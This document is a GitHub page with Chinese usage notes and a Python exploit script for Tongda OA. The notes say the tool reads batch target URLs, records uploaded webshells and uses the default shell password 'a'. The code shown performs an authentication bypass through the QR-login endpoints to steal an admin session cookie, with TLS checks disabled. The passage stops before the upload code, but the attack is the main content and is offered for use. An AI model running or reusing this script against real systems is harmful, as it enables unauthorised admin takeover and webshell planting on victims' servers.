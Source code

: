 > url.txt： 测试url，支持批量
>
> vuln.txt：上传成功的webshell
>
> 上传的默认一句话shell密码a

    # Usage: python tongda.py
    # Default webshell password:a
    
    import requests
    import threadpool
    import urllib3
    import json
    import base64
    
    urllib3.disable_warnings()
    header = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Referer": "https://google.com",
    }
    proxy = {       # debug
        "http": "http://127.0.0.1:8080",
        "https": "http://127.0.0.1:8080"
    }


    def wirte_targets(vurl, filename):
        with open(filename, "a+") as f:
            f.write(vurl + "\n")
            return vurl


    def get_cookie(url):
        checkHeader = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded",
            "Referer": "https://google.com",
        }
        try:
            req1 = requests.get(url + "/ispirit/login_code.php", headers=checkHeader, verify=False, timeout=25)
            if req1.status_code == 200 and "codeuid" in req1.text: 
                codeUid = json.loads(req1.text)["codeuid"]
            else:
                req1 = requests.get(url + "/general/login_code.php", headers=checkHeader, verify=False, timeout=25)
                status = req1.text.find('{"status":1')
                if req1.status_code == 200 and status != -1:
                    codeUid = json.loads(req1.text[status:])["code_uid"]
                else:
                    return "123"
            req2 = requests.post(url+ "/general/login_code_scan.php", data={"codeuid": codeUid, "uid": int(1), "source": "pc", "type": "confirm", "username": "admin"}, headers=checkHeader, verify=False, timeout=25)
            if req2.status_code == 200 and json.loads(req2.text)["status"] == "1":
                req3 = requests.get(url + "/ispirit/login_code_check.php?codeuid=" + codeUid, headers=checkHeader, verify=False, timeout=25)
                if req3.status_code == 200 and '"uid":"1"' in req3.text:
                    cookie = req3.headers["Set-Cookie"]
                    return cookie
        except:
            pass